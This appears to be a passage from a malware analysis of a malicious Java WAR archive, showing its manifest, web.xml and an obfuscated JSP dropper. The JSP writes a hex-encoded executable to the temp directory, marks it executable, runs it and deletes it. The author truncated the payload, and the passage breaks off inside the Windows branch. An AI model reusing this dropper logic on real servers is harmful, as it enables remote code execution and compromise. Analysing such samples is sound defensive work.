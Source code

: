 
Inside the archive, there’s three files: `META-INF/MANIFEST.MF`, `WEB-
INF/web.xml`, and `ppaejmsg.jsp`. The `MANIFEST.MF` file just contains some
version information:

    
    
    Manifest-Version: 1.0
    Created-By: 1.6.0_17 (Sun Microsystems Inc.)
    

The `WEB-INF/web.xml` file is quite simple in this case, just identifying the
jsp by name, and the servlet name:

    
    
    <?xml version="1.0"?>
    <!DOCTYPE web-app PUBLIC
    "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
    "http://java.sun.com/dtd/web-app_2_3.dtd">
    <web-app>
    <servlet>
    <servlet-name>gqsrnqtizzhn</servlet-name>
    <jsp-file>/ppaejmsg.jsp</jsp-file>
    </servlet>
    </web-app>
    

The meat of the code is in `ppaejmsg.jsp` (with long hex string truncated by
me for readability):

    
    
     1 <%@ page import="java.io.*" %>
     2 <%
     3   String tjSRohYSIVTEYgR = "4d5a90000300000004000000ffff...";
     4   String pkALAjcf = System.getProperty("java.io.tmpdir") + "/lcmWDJSTuqXlU";
     5
     6   if (System.getProperty("os.name").toLowerCase().indexOf("windows") != -1) {
     7     pkALAjcf = pkALAjcf.concat(".exe");
     8   }
     9
    10   int ODEsMJtiDkS = tjSRohYSIVTEYgR.length();
    11   byte[] YHxXvQEcNvT = new byte[ODEsMJtiDkS/2];
    12   for (int PEQXASgLslZXAoO = 0; PEQXASgLslZXAoO < ODEsMJtiDkS; PEQXASgLslZXAoO += 2) {
    13     YHxXvQEcNvT[PEQXASgLslZXAoO / 2] = (byte) ((Character.digit(tjSRohYSIVTEYgR.charAt(PEQXASgLslZXAoO), 16) << 4)
    14                                               + Character.digit(tjSRohYSIVTEYgR.charAt(PEQXASgLslZXAoO+1), 16));
    15   }
    16
    17   FileOutputStream BYhXIhapBQqShGa = new FileOutputStream(pkALAjcf);
    18   BYhXIhapBQqShGa.write(YHxXvQEcNvT);
    19   BYhXIhapBQqShGa.flush();
    20   BYhXIhapBQqShGa.close();
    21
    22   if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1){
    23     String[] NYqDzjSRU = new String[3];
    24     NYqDzjSRU[0] = "chmod";
    25     NYqDzjSRU[1] = "+x";
    26     NYqDzjSRU[2] = pkALAjcf;
    27     Process DrcLxlRyPVhwV = Runtime.getRuntime().exec(NYqDzjSRU);
    28     if (DrcLxlRyPVhwV.waitFor() == 0) {
    29       DrcLxlRyPVhwV = Runtime.getRuntime().exec(pkALAjcf);
    30     }
    31
    32     File sGOssUgzJ = new File(pkALAjcf); sGOssUgzJ.delete();
    33   } else {
    34     String[] hxaporcZNI = new String[1];
    35     hxaporcZNI[0] = pkALAjcf;